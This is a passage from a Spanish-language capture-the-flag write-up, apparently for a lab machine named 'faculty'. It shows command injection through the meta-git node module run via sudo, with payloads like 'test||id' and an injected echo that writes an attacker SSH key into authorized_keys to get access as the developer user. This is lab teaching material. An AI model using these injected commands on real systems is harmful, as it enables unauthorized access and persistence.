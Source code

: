 ## Command Injection
Investigando encontramos que hay una forma de ejecutar comandos utilizando este módulo de node.
https://hackerone.com/reports/728040
![Write-up Image](images/Screenshot_15.png)

Podemos ver que efectivamente, podemos inyectar un comando.
```shell
gbyolo@faculty:/tmp$ sudo -u developer /usr/local/bin/meta-git clone 'test||id'
meta git cloning into 'test||id' at test||id

test||id:
fatal: repository 'test' does not exist
id: ‘test’: no such user
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
...
```

Ahora, podemos copiar nuestra clave pública al `/home/developer/.ssh/authorized_keys` para poder acceder por SSH como este usuario.

```shell
gbyolo@faculty:/tmp$ sudo -u developer /usr/local/bin/meta-git clone 'test||echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCs/aNkke9LIHvwrIqFLiLavlSa5gVzvG6EibfhsRDbRY0DLzVMaWw2TmVJ/sjcWBg7DqGFJaJ70cqh7rCX9WYQnUTQUoo2yQ4yRG6UxDOEzD6Yt2JbxEZdsZqX7S1NY33zv9vt......." > /home/developer/.ssh/authorized_keys'
```
